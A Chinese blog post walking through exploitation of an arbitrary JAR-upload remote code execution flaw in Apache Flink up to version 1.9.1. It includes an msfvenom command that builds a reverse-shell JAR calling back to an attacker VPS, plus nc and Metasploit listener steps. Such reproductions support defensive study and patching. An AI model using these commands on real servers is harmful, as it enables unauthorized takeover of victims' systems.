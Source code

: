 **目录**

[Apache Flink](#t0 "Apache Flink")

[漏洞描述](#t1 "漏洞描述")

[漏洞复现](#t2 "漏洞复现")

* * *

Apache Flink
------------

**Apache Flink**是由[Apache软件基金会](https://baike.baidu.com/item/Apache%E8%BD%AF%E4%BB%B6%E5%9F%BA%E9%87%91%E4%BC%9A/2912769 "Apache软件基金会")开发的开源流处理[框架](https://so.csdn.net/so/search?q=%E6%A1%86%E6%9E%B6&spm=1001.2101.3001.7020)，其核心是用Java和Scala编写的分布式流数据流引擎。Flink以数据并行和流水线方式执行任意流数据程序，Flink的流水线运行时系统可以执行批处理和流处理程序。此外，Flink的运行时本身也支持迭代算法的执行

### 漏洞描述

近日,有安全研究员公开了一个[Apache](https://so.csdn.net/so/search?q=Apache&spm=1001.2101.3001.7020) Flink的任意Jar包上传导致远程代码执行的漏洞，通过该漏洞，攻击者可以在后台上传jar包导致命令执行。.  
影响范围：<= 1.9.1

### 漏洞复现

先使用如下命令生成恶意jar包

```
msfvenom -p java/shell_reverse_tcp LHOST=VPS的ip地址 LPORT=34567 -f jar > test.jar
```


![](https://img-blog.csdnimg.cn/20201027082743482.png)

在Apache Flink后台点击如下

![](https://img-blog.csdnimg.cn/20201027083052287.png)

![](https://img-blog.csdnimg.cn/20201027083139570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

点击Submit

![](https://img-blog.csdnimg.cn/20201027083214444.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

我们这边nc就可以收到shell了

![](https://img-blog.csdnimg.cn/20201027083324775.png)

或者使用MSF监听

```
use exploit/multi/handler      
set payload java/meterpreter/reverse_tcp      
set lhost 0.0.0.0      
set lport xx      
run
```


![](https://img-blog.csdnimg.cn/20201027124837608.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)
